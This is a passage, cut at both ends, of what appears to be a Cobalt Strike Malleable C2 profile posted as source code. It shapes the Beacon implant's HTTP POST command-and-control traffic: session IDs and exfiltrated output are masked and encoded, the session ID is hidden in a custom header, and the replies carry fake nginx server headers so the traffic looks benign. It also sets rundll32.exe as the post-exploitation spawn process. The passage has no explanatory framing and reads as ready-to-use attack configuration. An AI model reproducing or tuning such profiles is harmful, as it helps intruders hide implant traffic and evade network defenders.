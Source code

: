 ```
		output {
			mask;
			netbios;
			prepend "data=";
			append "%%";
			print;
		}
	}
}

# define indicators for an HTTP 
http-post {
	# Same as above, Beacon will randomly choose from this pool of URIs [if multiple URIs are provided]
	set uri "/IMXo";
	client {
		#header "Content-Type" "application/octet-stream";				

		# transmit our session identifier as /submit.php?id=[identifier]
		
		id {				
			mask;
			netbiosu;
			prepend "user=";
			append "%%";
			header "User";
		}

		# post our output with no real changes
		output {
			mask;
			base64url;
			prepend "data=";
			append "%%";		
			print;
		}
	}

	# The server's response to our HTTP POST
	server {
		header "Server" "nginx/1.10.3 (Ubuntu)";
    		header "Content-Type" "application/octet-stream";
        	header "Connection" "keep-alive";
       	 	header "Vary" "Accept";
        	header "Pragma" "public";
        	header "Expires" "0";
        	header "Cache-Control" "must-revalidate, post-check=0, pre-check=0";

		# this will just print an empty string, meh...
		output {
			mask;
			netbios;
			prepend "data=";
			append "%%";
			print;
		}
	}
}

post-ex {
    set spawnto_x86 "c:\\windows\\syswow64\\rundll32.exe";
    set spawnto_x64 "c:\\windows\\system32\\rundll32.exe";
    
```